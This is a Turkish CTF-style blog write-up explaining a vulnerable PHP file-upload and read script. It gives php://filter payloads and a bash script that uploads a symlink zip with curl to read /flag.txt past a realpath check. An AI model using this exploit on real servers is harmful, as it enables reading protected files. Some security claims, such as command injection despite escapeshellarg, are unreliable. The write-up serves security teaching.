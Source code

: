 ```yaml
---
title: "PHP Realpath ve SymLink Çözümü"
layout: post
---
```



PHP Realpath  Zafiyetli Scripti ve SymLink Kavramı



#### PHP Vuln Script

```php

<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
?>

```

#### Açıklama

İlk olarak, `session_start()` işlevi çağrılıyor. Bu, sunucu üzerinde bir oturum oluşturmayı sağlar. Eğer oturum zaten başlatılmışsa veya başlatılamıyorsa `(or die('session_start'))`, betik çalışmayı durdurur.
Ardından, `$_SESSION` süper global değişkeninde `sandbox` adında bir anahtar kontrol ediliyor. Eğer 'sandbox' anahtarı tanımlı değilse, `random_bytes(16)` işleviyle rastgele bir 16 baytlık dizi oluşturulup `bin2hex` işleviyle hexadecimal bir dizeye dönüştürülerek `$_SESSION['sandbox']` değişkenine atanır.
`sandbox` dizini, `data/` önekiyle birleştirilerek `$sandbox` değişkenine atanır.
Bir kilitleme dosyası `($sandbox . '.lock')` oluşturulup açılır `(fopen)`. 
Eğer dosya açılamazsa `(or die('fopen'))`, betik çalışmayı durdurur.
flock işlevi, kilitleme dosyasını kilitlemeyi dener. Eğer başka bir işlem tarafından dosya zaten kilitlenmişse veya kilitleme işlemi başarısız olursa `(or die('flock'))`, betik çalışmayı durdurur.
`mkdir` işleviyle `$sandbox` dizini oluşturulur ve izinleri `0700` olarak ayarlanır. Eğer dizin oluşturulamazsa, betik çalışmayı durdurur.
`chdir` işleviyle çalışma dizini `$sandbox` dizini olarak değiştirilir. Eğer dizini değiştiremezse, betik çalışmayı durdurur.
Eğer `$_FILES` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın yüklendiği kontrol edilir.
system işlevi kullanılarak bir komut yolu belirtilir `(/usr/bin/unzip)` ve yüklenen dosyanın geçici konumunu temsil eden `$_FILES['file']['tmp_name']` değeri işleme dahil edilir.
Bu komut, belirtilen dosyayı çıkarır `(unzip)` ve `$sandbox` dizinine yerleştirir. 
`ulimit -v 8192` komutu, işlemin sanal bellek sınırlamasını `8192` kilobayt olarak ayarlar. 
`/usr/bin/timeout -s KILL 2` komutu, unzip işleminin 2 saniye içinde tamamlanmaması durumunda işlemi sonlandırır.

`escapeshellarg($_FILES['file']['tmp_name']))` --> `escapeshellarg` işlevi, bir dizeyi güvenli bir şekilde kabuk argümanı olarak kullanılabilir hale getirmek için kullanılan bir işlevdir.

Eğer `$_GET` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın okunduğu kontrol edilir.

`$_GET['file']` değeri işlenir ve realpath işlevi kullanılarak dosyanın gerçek yolunu elde eder. Ardından `preg_match` işlevi kullanılarak gerçek dosya yolunun boş veya `flag` kelimesini içerip içermediği kontrol edilir.

`realpath($_GET['file'])` işlemi, belirtilen dosyanın gerçek yolunu döndürür. Eğer dosya yoksa veya gerçek yolu bulunamazsa `false` değeri döner.
`preg_match('/(^$|flag)/i', realpath($_GET['file'])`, gerçek dosya yolunu verilen düzenli ifadeye göre kontrol eder. İfade, dosya yolunun boş olup olmadığını veya `flag` kelimesini içerip içermediğini kontrol eder. `i` bayrağı büyük/küçük harf duyarlılığını kapatır.
Eğer gerçek dosya yolü belirlenen kriterleri sağlıyorsa, `readfile` işlevi kullanılarak dosyanın içeriği tarayıcıya gönderilir. Bu, dosyanın içeriğinin tarayıcıda görüntülenmesini sağlar.

Son olarak, `fclose` işlevi kullanılarak kilitleme dosyası kapatılır.

>File Path Check: `$_GET['file']` değeri doğrudan gerçek dosya yolu olarak kullanılıyor. Ancak, realpath işlevi bile olsa bu kullanım güvenli değildir. Kötü niyetli kullanıcılar, dosya yolu manipülasyonu yaparak izin verilmeyen dosyaları okuyabilir veya sistem dosyalarına erişebilir. Güvenli bir dosya yolu kontrolü yapılmalı ve yalnızca belirli bir klasördeki dosyalara erişime izin verilmelidir.

>Command Injection: Dosya yükleme işlemi sırasında `system` işlevi kullanılırken, yüklenen dosyanın güvenli bir şekilde işlenmediği görülüyor. Kötü niyetli kullanıcılar, `$_FILES['file']['tmp_name']` değeri üzerinden komut enjeksiyon saldırıları gerçekleştirebilir ve istenmeyen komutları sunucuda çalıştırabilir. Dosya yükleme işlemi güvenli bir şekilde yapılmalı ve yüklenen dosyaların içeriği doğrulanmalıdır.

>Information Disclosure: Bu istek, readfile işlevini kullanarak bir dosyanın base64 kodlanmış içeriğini tarayıcıya göndermek yerine, "php://filter/convert.base64-encode/resource=exploit" olarak adlandırılan özel bir dosyanın içeriğini kodlayabilir. Eğer bu dosya bir PHP betiği veya hassas bilgiler içeren bir dosya ise, bu sayede saldırgan, hedef sistemin kodunu sızdırabilir veya hassas verilere erişebilir.

>Local File Inclusion: `php://filter/convert.base64-encode/resource=exploit` ifadesi, dosya yolu keşfine yol açabilir. Saldırgan, "exploit" yerine diğer dosya veya dizin isimlerini deneyerek sistemdeki dosyaların listesini elde etmeye çalışabilir. Bu şekilde, saldırgan sistemin dosya yapısını inceleyebilir ve hassas verilerin yerini tespit edebilir.

#### Payload

```php
php://filter/convert.base64-encode/resource=flag.txt
php://filter/convert.base64-encode/resource=./flag.txt
```
Komutları ise bize flag değerini döndürecektir.Fakat önce yukarıda yapıldığı gibi dosya yükleme işlemi yapmak gerekir.

#### Bash Script 

```bash

#!/bin/bash

TARGET='http://example.com'
PAYLOAD='php://filter/convert.base64-encode/resource=exploit'

mkdir -p ExpDir
pushd ExpDir

mkdir -p "$PAYLOAD"
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=OturumBilgisi' "$TARGET" -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=OturumBilgisi' "${TARGET}/?file=${PAYLOAD}" | base64 -d

echo
popd

```
#### Command

```py
mkdir file:
cd file:
touch flagx.txt
ln -s flagx.txt flag.txt
cd ..
zip -ry flag.zip file
```

mkdir file: "file" adında bir dizin oluşturur.
cd file: Oluşturulan "file" dizinine geçiş yapar.
touch flagx.txt: "flagx.txt" adında boş bir dosya oluşturur.
ln -s flagx.txt flag.txt: "flag.txt" adında sembolik bir bağlantı oluşturur ve bu bağlantıyı "flagx.txt" dosyasına yönlendirir.
cd ..: Önceki dizine geri döner.
zip -ry flag.zip file: "file" dizinini ve içeriğini "recursive" olarak sıkıştırır ve "flag.zip" adlı bir zip arşivi oluşturur.
Bu işlemler sonucunda, "file" dizini içinde "flagx.txt" adlı bir dosya ve bu dosyaya bağlantı olarak "flag.txt" adlı sembolik bir bağlantı oluşturulur. Ardından, "file" dizini ve içeriği "file_flag.zip" adlı bir zip arşivine sıkıştırılır.


"recursive" terimi, bir işlemi veya işlemi bir dizin ve içeriğindeki tüm alt dizinler üzerinde tekrarlayarak gerçekleştirmeyi ifade eder.

`zip -r` veya `zip -ry` komutları, zip arşivini oluştururken rekürsif olarak çalışır. Bu, belirtilen dizin ve alt dizinlerindeki tüm dosyaları ve alt dizinleri de dahil ederek bir arşiv oluşturur. Dosyaların ve alt dizinlerin içeriği, arşivin içinde hiyerarşik bir yapıda saklanır.

`zip -r` komutu, dizin ve dosyaları sıkıştırmak için kullanılırken, `zip -ry` komutu, sıkıştırma işlemi sırasında sembolik bağlantıları da korur. Bu, sembolik bağlantılara sahip dosyaların da arşivin içine dahil edileceği anlamına gelir.

Örneğin, zip -ry flag.zip file komutunu kullanarak "file" dizinini rekürsif olarak sıkıştırdığınızda, "file" dizini, içindeki dosyalar ve alt dizinler ile birlikte "flag.zip" adlı bir arşive dahil edilir. Bu şekilde, tüm dizin hiyerarşisi ve içerik korunarak sıkıştırma işlemi gerçekleştirilir.
`file:///flag.txt` komutu ilede çözüm sağlanır.

#### Symbolic Link (Sembolik Bağlantı)

Bir dosyanın veya dizinin başka bir dosyayı veya dizini işaret etmesini sağlayan bir dosya türüdür. 
Bir sembolik bağlantı, dosya sistemi üzerinde bir yol bağlantısı oluşturur ve bu sayede bir dosyanın birden fazla konumda bulunmasını sağlar.


#### Makale

Daha detaylı olarak belirttiğim makaleme ise burada ulaşabilirsiniz [PHP LFI-RFI-RCE](https://cagrieser.com/articles/PHP-LFI-RFI-RCE.pdf)

Aşağıda ki Python Scripti ile gerekli payloadları ayarlarıp dönen yanıtları dışarı aktarıp bakabilirsiniz.
[https://github.com/cagrieser/ReqWeb](https://github.com/cagrieser/ReqWeb)

Bunun dışında Burp Suite ilede Intruder yapabilirsiniz.

![Web](/img/qwb.gif)